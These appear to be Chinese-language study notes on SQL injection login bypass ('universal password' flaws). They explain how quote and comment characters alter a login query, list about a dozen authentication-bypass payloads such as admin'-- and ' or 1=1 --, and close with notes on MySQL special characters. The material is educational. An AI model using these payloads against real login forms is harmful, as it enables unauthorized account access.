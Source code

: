 selec * from users where username=**'test'**  --'and password='12345'

**把原来本来验证用户名密码是否正确的业务逻辑  变成了 查询数据库中是否有用户test的业务逻辑**

![image-20230315093157572](D:\Program Files\Typora\images\image-20230315093157572.png)

如果原来的语句是双引号 那因为需要我们输入有歧义的用户名为双引号   test"--

**攻击者插入恶意的攻击语句 从而使原来的语句存在歧义 从而达到攻击者的目的**

也成为万能密码漏洞

~~~
'or'='or'
admin'-- 
admin' or 4=4-- 
admin' or '1'='1'-- 
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1-- 
admin' or '2'='2
')or('a'='a
or 4=4--
~~~

所有这一类的技术基础  都是通过书写歧义的sql语句  且sql语句通顺可执行，从而改变sql原名来的意思  达到攻击者的目的

~~~
select * from users where username='farmsec' and password=''or 1=1 --
~~~

**因为1永远等于1**，登录验证就会被绕过。密码绕过

语句绕过的基础

1. sql语句要通顺 可执行
2. 用户名要正确  因为语句就是用户名正确  密码绕过过着 密码永远 正确的 1=1 的形式
3. sql语句存在的歧义符合攻击者的目的



~~~
在MySQL中，有一些特殊字符需要注意：

单引号（'）：用于表示字符串值，如果字符串本身包含单引号，则需要使用反斜杠（\）进行转义。

双引号（"）：在MySQL中，双引号不是用作字符串引号的，而是用作标识符引号。如果你使用的是ANSI_QUOTES SQL模式，则可以将双引号用作字符串引号。

反斜杠（\）：在MySQL中，反斜杠用作转义字符。当你需要在字符串中插入一个特殊字符时，可以使用反斜杠进行转义。

百分号（%）和下划线（_）：用于模糊匹配查询，可以在LIKE子句中使用。百分号表示零个或多个字符，下划线表示任意一个字符。

注释符号（-- 和 /* /）：用于添加注释到SQL语句中。--用于添加单行注释，/ */用于添加多行注释。

以上这些特殊字符在MySQL中经常被使用，需要特别注意。
~~~
